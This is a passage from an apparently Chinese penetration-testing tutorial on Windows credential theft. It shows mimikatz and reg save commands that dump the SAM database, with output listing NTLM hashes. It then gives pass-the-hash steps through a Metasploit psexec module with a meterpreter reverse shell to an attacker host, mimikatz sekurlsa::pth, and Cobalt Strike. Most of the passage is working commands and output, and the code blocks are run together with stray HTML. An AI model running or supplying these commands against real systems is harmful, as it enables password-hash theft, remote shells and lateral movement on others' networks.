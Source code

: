 6. 利用 sam 表

mimikatz 在线读 sam 表中的 hash

```
privilege::debug<br mpa-from-tpl="t" style="max-width: 100%;box-sizing: border-box !important;word-wrap: break-word !important;">token::elevate<br mpa-from-tpl="t" style="max-width: 100%;box-sizing: border-box !important;word-wrap: break-word !important;">lsadump::sam
```

将 sam 表下载到本地由 mimikatz 分析

```
reg save HKLM\SYSTEM SYSTEMreg save HKLM\SAM SAM在远端shell使用以上命令导出SYSTEM 和 SAM文件，并将其待会本地，由mimikatz分析mimikatz运行mimikatz # lsadump::sam /sam:SAM /system:SYSTEMDomain : STU1SysKey : fd4639f4e27c79683ae9fee56b44393fLocal SID : S-1-5-21-1982601180-2087634876-2293013296SAMKey : 099d1915db1b0e5cf41f1f0908dc7e17RID  : 000001f4 (500)User : Administrator  Hash NTLM: 31d6cfe0d16ae931b73c59d7e0c089c0RID  : 000001f5 (501)User : GuestRID  : 000003e8 (1000)User : liukaifeng01  Hash NTLM: 31d6cfe0d16ae931b73c59d7e0c089c0
```

### **hash 传递攻击 PTH （Pass the Hash)**

1.msf 里使用 psexec 模块

```
msf5 exploit(multi/handler) > use exploit/windows/smb/psexec //以root启动msf[*] No payload configured, defaulting to windows/meterpreter/reverse_tcpmsf5 exploit(windows/smb/psexec) > set lhsot 192.168.64.133lhsot => 192.168.64.133msf5 exploit(windows/smb/psexec) > set lhost 192.168.64.133lhost => 192.168.64.133msf5 exploit(windows/smb/psexec) > set lport 443lport => 443msf5 exploit(windows/smb/psexec) > set rhost 192.168.52.138rhost => 192.168.52.138msf5 exploit(windows/smb/psexec) > set SMBUser AdministratorSMBUser => Administratormsf5 exploit(windows/smb/psexec) > set SMBPass 8a963371a63944419ec1adf687bb1be5 //一般选择NTLM HASHSMBPass => 8a963371a63944419ec1adf687bb1be5msf5 exploit(windows/smb/psexec) > run
```

2. 使用 mimikatz

我们在目标机里放置 mimikatz.exe 然后执行以下命令

```
sekurlsa::pth /user:administrator /domain:"xxx.com" /ntlm:6542d35ed5ff6ae5e75b875068c5d3bc //自行修改
```

之后便会弹出一个 cmd 窗口，在这个窗口里链接机器即可

```
net use \\192.168.222.131\c$
```

3. 使用 cobalt strike

在 cobalt strike 里找到域控，然后使用 psexec 模块，选择一个本地 hash 即可。

![](https://mmbiz.qpic.cn/mmbiz_png/zojWxwXWulO6cX5ngkMOrjGu5hiaU8jWMdchZJwZy6SQLpdgbJucSJfPcuBKuJklUaMV2Mv8z65aKF8QP68vicYg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/zojWxwXWulO6cX5ngkMOrjGu5hiaU8jWMDM0pCGXjxl7g13J8wiauWuib5gbKx8KkoKPrpd5eGkWHPiaImTo1HkT6Q/640?wx_fmt=png)

**二、MS14-068**
--------------
